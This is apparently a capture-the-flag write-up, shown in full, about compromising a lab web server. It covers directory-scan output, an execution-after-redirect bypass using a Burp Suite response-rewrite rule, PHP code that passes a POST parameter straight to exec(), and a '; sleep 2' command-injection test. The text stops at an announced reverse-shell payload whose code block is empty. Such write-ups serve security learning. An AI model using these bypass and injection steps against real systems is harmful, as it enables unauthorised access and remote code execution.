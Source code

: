 ```bash
===============================================================
/login.php            (Status: 200) [Size: 2224]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/index.php            (Status: 302) [Size: 2801] [--> login.php]             
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/files.php            (Status: 302) [Size: 4914] [--> login.php]              
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/config.php           (Status: 200) [Size: 0]                                 
/header.php           (Status: 200) [Size: 980]                               
/footer.php           (Status: 200) [Size: 217]                               
/.                    (Status: 302) [Size: 2801] [--> login.php]              
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/nav.php              (Status: 200) [Size: 1248]                              
/status.php           (Status: 302) [Size: 2966] [--> login.php]              
Progress: 213832 / 478404 (44.70%)                        
```
if we take one of this requests and send it to burp, we can see that in the 302 response body the site is disclosing the code page before redirecting us.  
This type of vulnerability is called Execute After Read (EAR), the same has been discovered in a previous assessment in [Bank](Bank.md).  
Now we can set up a 'Match and Replace' rule in burpsuite to match `302 Found` and replace it with `200 Ok`  in the response header. 
Once we setup this rule we will be able to open restricted pages and create an administrator account that we can use to access the platform as a regular user.
Once we are logged in we can notice a 'download siteBackup' button.  
If we click on this button, we will be able to download the site code and see the following in `logs.php`
```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;
```
Now we can try to exploit this part of code and get a reverse shell.

## Foothold
We can try to obtain a blind command ececution by adding a `; sleep 2` before the delim parameter and exploit the code snippet above.  
As we can observe we will see the response time increase after we add a sleep command:  
![](AttachmentS/Pasted%20image%2020220708160454.png)
Once we can see that we can inject code, we can add our reverse bash payload to gain a shell on this box:  
```
```